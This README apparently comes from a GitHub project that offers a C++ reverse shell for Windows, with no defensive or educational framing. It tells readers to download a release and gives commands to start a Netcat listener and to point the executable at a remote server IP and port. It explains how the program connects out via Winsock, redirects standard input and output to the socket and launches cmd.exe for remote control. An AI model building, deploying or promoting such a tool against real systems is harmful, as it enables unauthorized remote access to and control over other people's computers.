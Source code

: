 
# Reverse Shell in C++

This project implements a simple reverse shell in C++. It establishes a connection to a remote server, redirects standard input/output/error to a socket, and allows interaction with a shell on the target system. The code is designed for Windows environments and uses Winsock for network communication.

## Getting Started
-Simply download the PowerShell or cmd release and you're good to go

### Prerequisites
- A Windows environment.
- Visual Studio or a compatible C++ compiler.

### Building the Code
1. Clone the repository to your local machine.
2. Open the project in your C++ IDE.
3. Compile and build the project.

### Running the Code
1. Start a listener on the remote server using tools like `nc` (Netcat):
   ```bash
   nc -lvnp <port>
   ```
2. Run the compiled executable with the remote server's IP and port as arguments:
   ```bash
   ./reverse_shell <server_ip> <port>
   ```

## How It Works
The code performs the following steps:
1. Initializes Winsock.
2. Creates a TCP/IP socket.
3. Connects to the remote server with the given IP and port.
4. Redirects standard input/output/error to the socket.
5. Launches `cmd.exe` with redirection, allowing interaction via the reverse shell.
6. Cleans up resources after the shell completes.

## License
[Choose a license](https://choosealicense.com/) that suits your project's needs.
